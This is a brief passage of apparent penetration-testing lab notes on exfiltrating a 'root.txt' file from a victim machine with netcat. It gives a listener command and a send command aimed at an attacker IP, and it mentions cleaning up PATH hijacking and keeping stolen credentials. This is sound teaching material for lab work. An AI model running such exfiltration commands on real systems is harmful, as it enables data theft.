 Misc
--
    
In the case we are not able to read the output of the commands from the victim_machine by using cat, nano, vi and so on, we can exfiltrate data by netcat. For example:

* On the attacker_machine: `nc -l -p 443 > root.txt`
* On the victim_machine: `nc -w 3 10.10.15.96 443 < root.txt`
                                                             
In this way, we get the `root.txt` file on our machine.

In general, after all these operations, it is best practice to remove the /tmp folder from the PATH to use the correct cat command, to restore the original "state" of the system before our attack.
                                                             
Save in a file all the credentials you gather, maybe could be useful in the next labs.                                                           
